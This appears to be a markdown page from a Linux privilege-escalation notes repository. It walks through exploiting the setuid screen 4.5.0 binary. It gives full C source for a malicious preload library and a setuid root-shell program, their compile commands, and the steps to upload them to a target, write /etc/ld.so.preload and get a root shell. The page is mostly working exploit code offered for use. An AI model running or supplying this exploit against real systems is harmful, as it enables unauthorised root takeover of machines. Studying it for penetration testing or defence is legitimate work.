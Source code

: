```bash
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/ab99952d-a793-47a9-889f-b0cc5152ad2c)

* Compile First
- Save this file as `libhax.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- Save this file as `rootshell.c`
```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

- Let’s compile it

```
gcc -fPIC -shared -ldl -o libhax.so libhax.c
gcc --static -o rootshell rootshell.c
```

- Now we have both the file

1. Upload `libhax.so` and `rootshell` to target machine in `/tmp` directory
2. Also change the permission of both the file to executable
```
chmod +x rootshell
chmod +x libhax.so
```
4. Run Below Commands
```bash
cd /etc
umask 000
screen-4.5.0 -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
/tmp/rootshell
id
```
![image](https://github.com/Grizzy529/Linux-PrivEsc/assets/102862377/7cad8e25-8076-4a96-9a7e-88499f9df884)

